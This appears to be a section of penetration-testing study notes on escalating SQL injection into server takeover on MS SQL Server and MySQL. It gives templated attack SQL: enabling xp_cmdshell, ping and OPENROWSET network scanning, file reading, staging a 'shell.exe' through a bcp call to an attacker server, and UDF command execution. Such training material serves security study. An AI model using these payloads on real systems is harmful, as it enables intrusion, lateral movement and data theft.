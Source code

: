 # 2.4.8 From SQLi to Server Takeover

## From SQLi to Server Takeover

In this section, advanced features provided by MS SQL Server and MySQL are explored, revealing how these features can be exploited to gain access to the DBMS server machine.

### **Advanced SQL Server Exploitation**

#### **xp\_cmdshell:**

* `xp_cmdshell` is a stored procedure in SQL Server that provides advanced features.
* To run an OS command: `EXEC master..xp_cmdshell '<command>'`
* Not enabled by default, requires sa privileges.
*   Enable and disable:

    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;

    -- After tests
    EXEC sp_configure 'xp_cmdshell', 0;
    EXEC sp_configure 'show advanced options', 0;
    RECONFIGURE;
    ```

### **Internal Network Host Enumeration**

* Use `xp_cmdshell` to launch commands.
* Ping command: `EXEC master.dbo.xp_cmdshell 'ping <target IP address>'`
* Use execution time to infer ping result.

### **Port Scanning (OPENROWSET)**

* Use `OPENROWSET` for remote server table access.
*   Exploit for port scanning:

    ```sql
    SELECT * FROM OPENROWSET('SQLOLEDB', 'uid=sas;pwd=something;Network=DBMSSOCN;Address=<target IP>,<target port>;timeout=<connection timeout in seconds>', 'select 1')--
    ```
* Detect open/closed ports based on error messages.

### **Reading the File System**

* Use `EXEC master..xp_cmdshell 'dir <target directory>'` to list directory contents.
* Save output to a web-accessible folder or read a file and put content into a table for extraction.

### **Uploading Files**

*   Insert file into a table in the MS SQL database.

    ```sql
    CREATE TABLE HelperTable (file text)
    BULK INSERT HelperTable FROM 'shell.exe' WITH (codepage='RAW')
    ```
*   Retrieve it from our server:

    ```sql
    EXEC xp_cmdshell 'bcp "SELECT * FROM HelperTable" queryout shell.exe -c -Craw -S<our server address> -I<out server username> -P<our server password>'
    ```

### **Storing Command Results into a Temporary Table**

*   Create a temporary table to hold stored procedure output:

    ```sql
    CREATE TABLE temptable (id int not null identity (1,1), output nvarchar(4096) null);
    ```
* Craft argument for `xp_cmdshell`.
*   Execute command and store results:

    ```sql
    declare @t nvarchar(4096) set @t=0x640069007200200063003a005c00 insert into temptable (output) EXEC master.dbo.xp_cmdshell @t;
    ```

**Conclusion:**

* Advanced SQL Server exploitation involves leveraging features like `xp_cmdshell` for OS command execution, internal network host enumeration, port scanning, reading the file system, uploading and downloading files, and storing command results for further analysis.

## **Advanced MySQL Exploitation**

### **Reading the File System:**

* Use `LOAD_FILE('<text file path>')` to read files.
* For binary files: `SELECT HEX(LOAD_FILE('<text file path>'))`.

### **Uploading Files:**

*   Use `SELECT ... INTO DUMPFILE` to write query results to a file.

    ```sql
    SELECT <fields> FROM <table> INTO DUMPFILE '<output file path>';
    ```
* Convert binary file to hex-string and upload.

### **Executing Shell Commands:**

* MySQL doesn't provide a direct method for running shell commands.
* Use User Defined Functions (UDF) for custom functions like `sys_eval` and `sys_exec`.
* Upload shared objects (SO) or dynamic-link library (DLL) files to the target server.
*   Execute commands:

    ```sql
    SELECT sys_eval('<command>')
    SELECT sys_exec('<command>')
    ```

**Conclusion:**

* Advanced MySQL exploitation includes reading the file system, uploading files, and executing shell commands using User Defined Functions (UDFs).
